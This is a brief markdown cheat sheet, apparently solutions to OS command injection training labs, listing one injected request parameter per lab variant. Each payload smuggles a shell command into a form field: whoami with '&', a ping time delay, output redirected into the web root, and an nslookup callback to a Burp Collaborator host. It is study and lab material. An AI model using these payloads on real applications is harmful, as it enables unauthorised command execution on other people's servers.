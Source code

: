 # OS command injection

## OS command injection, simple case
```
productId=1&storeId=1+%26+whoami+%26
```

## Blind OS command injection with time delays
```
email=jan%40foo.net||ping+-c+10+127.0.0.1||
```

## Blind OS command injection with output redirection
```
email=jan%40foo.net||whoami>/var/www/images/whoami.txt||
```

## Blind OS command injection with out-of-band interaction
```
email=jan%40foo.net||nslookup+burpcollaborator.net||
```

## Blind OS command injection with out-of-band data exfiltration
TODO: Burp Suite Professional